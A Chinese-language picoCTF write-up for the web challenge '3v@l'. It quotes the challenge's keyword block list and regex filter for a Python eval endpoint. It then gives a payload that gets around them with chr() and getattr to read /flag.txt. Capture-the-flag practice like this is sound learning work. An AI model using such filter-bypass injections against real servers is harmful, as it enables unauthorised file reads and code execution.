 ```yaml
---
title: 3v@l
published: 2025-07-13
updated: 2025-07-14
description: "picoCTF"
image: ""
tags: ["CTF Writeup", "picoCTF", "Web"]
category: "picoCTF"
draft: false
---
```


# 3v@l

![index](/assets/picoCTF/3v@l/image.png)

發現有註解了的規則：

- 不能用 `os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind`
- 使用正規表達式過濾，防止目錄遍歷與十六進位編碼

```html
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

考慮 Python 內建函式操作：

- `open` 與 `read` 這些是內建函式，不在禁止關鍵字內
- 避開 `.` 使用，例如用 `getattr()`

```python
getattr(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)), 'read')()
```

得到 flag

![flag](/assets/picoCTF/3v@l/image-1.png)
